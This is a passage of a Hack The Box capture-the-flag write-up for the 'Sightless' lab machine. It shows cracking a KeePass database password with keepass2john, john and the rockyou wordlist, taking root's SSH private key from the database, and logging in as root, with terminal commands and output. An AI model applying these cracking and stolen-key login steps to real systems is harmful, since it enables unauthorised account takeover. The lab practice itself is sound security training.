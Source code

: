 We logged in successfully, and found a `keepass` db file.

We download the file to our box and open it.

The file has a password as expected, we can use `keepass2john` to get the hash of that pass and then crack it.

```terminal
┌──[10.10.16.20]─[sirius💀parrot]-[~/ctf/htb/sighless]
└──╼[★]$ keepass2john Database.kdb > hash
[sudo] password for sirius: 
Inlining Database.kdb
                                                                                                                                                                                              
┌──[10.10.16.20]─[sirius💀parrot]-[~/ctf/htb/sighless]
└──╼[★]$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 600000 for all loaded hashes
Cost 2 (version) is 1 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldogs         (Database.kdb)     
1g 0:00:00:42 DONE (2024-12-19 11:36) 0.02380g/s 24.75p/s 24.75c/s 24.75C/s kucing..pisces
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We got the password, now I used `keepassxc` to open the file.

The file is `keepass db 1` so I had to go to `Database` -> `Import` -> `Keepass 1 Database`

![kee](13.png)

I found the root's password but it didn't work.

The database contains an attachment.

![id](14.png)

It's an id_rsa file, let's download it and connect with it.

```terminal
$ ssh -i id_rsa root@sightless.htb
Load key "id_rsa": error in libcrypto
```

We got an error about libcrypto.

Searching for this error on google we came across [stackexchange page](https://unix.stackexchange.com/questions/577402/ssh-error-while-logging-in-using-private-key-loaded-pubkey-invalid-format-and).

Some one suggests using the following commands to solve the issue.

```terminal
dos2unix ~/.ssh/id_rsa
vim --clean ~/.ssh/id_rsa
```
